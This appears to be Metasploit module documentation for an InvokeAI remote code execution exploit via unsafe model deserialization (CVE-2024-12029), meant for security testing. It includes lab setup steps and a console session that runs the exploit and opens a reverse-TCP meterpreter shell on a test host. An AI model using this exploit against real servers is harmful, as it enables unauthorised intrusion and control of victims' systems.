 ## Vulnerable Application

InvokeAI has a critical vulnerability leading to remote code execution
in the /api/v2/models/install API through unsafe model deserialization.
The API allows users to specify a model URL, which is downloaded and loaded server-side using torch.load without proper validation.
This functionality allows attackers to embed malicious code in model files that execute upon loading.

The vulnerability affects:

    * 4.0.0 <= InvokeAI <= 5.4.2

This module was successfully tested on:

    * InvokeAI 5.3.1 installed Ubuntu 22.04


### Installation

Follow the [official instructions](https://invoke-ai.github.io/InvokeAI/installation/manual/#walkthrough)

1. Install uv:

`curl -LsSf https://astral.sh/uv/install.sh | sh`

2. Create a directory for your installation:

```bash
mkdir ~/invokeai
cd ~/invokeai
```

3. Create a virtual environment in that directory:

`uv venv --relocatable --prompt invoke --python 3.11 --python-preference only-managed .venv`

4. Activate the virtual environment:

`source .venv/bin/activate`

5. Install the invokeai package:

```bash
uv pip install invokeai==5.3.1 --python 3.11 --python-preference only-managed --index=https://download.pytorch.org/whl/cpu --force-reinstall
```

6. Deactivate and reactivate your venv so that the invokeai-specific commands become available in the environment:

`deactivate && source .venv/bin/activate`

7. Edit ~/invokeai/invoke.yaml:
```yaml
# Internal metadata - do not edit:
schema_version: 4.0.2

# Put user settings here - see https://invoke-ai.github.io/InvokeAI/features/CONFIGURATION/:
host: 0.0.0.0 # serve the app on your local network
```

8. Run the application, specifying the directory you created earlier as the root directory:

`invokeai-web --root ~/invokeai`


## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/invokeai_rce_cve_2024_12029`
4. Do: `run lhost=<lhost> rhost=<rhost>`
5. You should get a meterpreter


## Options


## Scenarios
```
msf6 > use exploit/linux/http/invokeai_rce_cve_2024_12029
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/invokeai_rce_cve_2024_12029) > options

Module options (exploit/linux/http/invokeai_rce_cve_2024_12029):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    9090             yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        true             yes       Attempt to delete the binary after execution
   FETCH_FILENAME      CdRqUbPlDQJ      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.0.12     yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(linux/http/invokeai_rce_cve_2024_12029) > run lhost=192.168.56.1 rhost=192.168.56.17
[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Version 5.3.1 detected.
[*] Using URL: http://192.168.56.1:8081/Z8KmlibT
[*] Server started.
[*] Sending stage (3045380 bytes) to 192.168.56.17
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.17:48294) at 2025-02-16 15:24:41 +0900
[*] Server stopped.

meterpreter > getuid
Server username: ubu
meterpreter > sysinfo
Computer     : 192.168.56.17
OS           : Ubuntu 22.04 (Linux 6.8.0-51-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
